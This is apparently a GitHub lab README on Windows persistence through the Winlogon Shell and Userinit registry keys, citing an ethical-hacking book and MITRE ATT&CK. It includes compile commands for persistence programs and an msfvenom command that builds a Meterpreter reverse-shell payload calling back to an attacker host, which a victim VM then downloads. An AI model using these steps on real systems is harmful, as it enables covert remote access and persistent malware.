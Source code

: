 # Leveraging Registry Keys Utilized by the Winlogon Process
The Winlogon process is a crucial component of the Windows operating system, responsible for several key functions including:

Facilitating user logon and logoff operations
Managing system startup and shutdown procedures
Implementing screen locking functionality.

**The most important registry keys** for this techniques are listed as follows:
```powershell
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify
```

### Key Registry Entries for Winlogon
## 1. HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell

- **Purpose:** This key specifies the default shell used by the operating system. By default, it is set to explorer.exe, which is the Windows graphical user interface.
- **Exploitation:** Attackers can modify this entry to point to a malicious executable. This ensures that the malicious program runs instead of or alongside the normal user interface when the user logs in.


## 2. HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit

- **Purpose:** This key specifies the program that initializes the user environment during the logon process. By default, it is set to userinit.exe.
- **Exploitation:** Attackers can append or replace this entry with a path to their malicious executable. This causes the malicious program to run during the user initialization process, ensuring that it executes every time a user logs in.

## Requirements for Successful Exploitation
- **Local Administrator Privileges:** Modifying these critical registry keys requires local administrator privileges. Attackers must elevate their privileges on the compromised system to make these changes.
- **Persistence:** Once the registry keys are modified, the malicious programs will persist through reboots and logons, making it difficult to detect and remove them.

## Summary
By modifying the Winlogon registry keys (Shell and Userinit), attackers can maintain a persistent foothold on a compromised Windows system. This technique ensures that their malicious programs run during system startup or user logon, leveraging the essential functions of the Winlogon process. However, successfully implementing this strategy requires local administrator privileges, highlighting the importance of securing administrative access and monitoring critical registry changes to detect potential malicious activities.

---
# Example #1
- This example is based on Chpater 3 - Malware Persistence Mechanisms in [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers) by Zhassulan Zhussupov, 2024.
- More explanation by cocomelonc (Zhassulan Zhussupov) can be found in his [blog](https://cocomelonc.github.io/).
## Step 1. Compile `hack.c`
```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```
## Step 2. Compile `pers.c`
```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

Check the registry keys
```powershell
 reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /s
```

---

# Example #2
This example is based on [Persistence – Winlogon Helper DLL](https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/) by Penetration Testing Lab.

## Step 1. Generate a malicious payload
```bash	
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe > hack2.exe
```
![](./screenshots/06.png)

Open a server for victim's Windows 10 VM to download the malicious payload.
```bash
python -m http.server 8000
```


## Step 2.

```bash
sudo msfconsole
```
![](./screenshots/05.png)



---

# References
- Zhassulan Zhussupov (2024)Chapter 3 - Malware Persistence Mechanisms , [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers). Available from: https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers [Accessed 08 August 2024].
- MITRE ATT&CK (2024) [Boot or Logon Autostart Execution: Winlogon Helper DLL](https://attack.mitre.org/techniques/T1547/004/). Available from: https://attack.mitre.org/techniques/T1547/004/ [Accessed 08 August 2024].
- Red Team Notes (2020) [Windows Logon Helper](https://www.ired.team/offensive-security/persistence/windows-logon-helper) (blog). Available from: https://www.ired.team/offensive-security/persistence/windows-logon-helper [Accessed 08 August 2024].
- Hadess (2023) The Art of Windows Persistence (blog). Available from: https://hadess.io/the-art-of-windows-persistence/ [Accessed 08 August 2024].
-Penetration Testing Lab (2020) Persistence – Winlogon Helper DLL (blog). Available from: https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/ [Accessed 08 August 2024].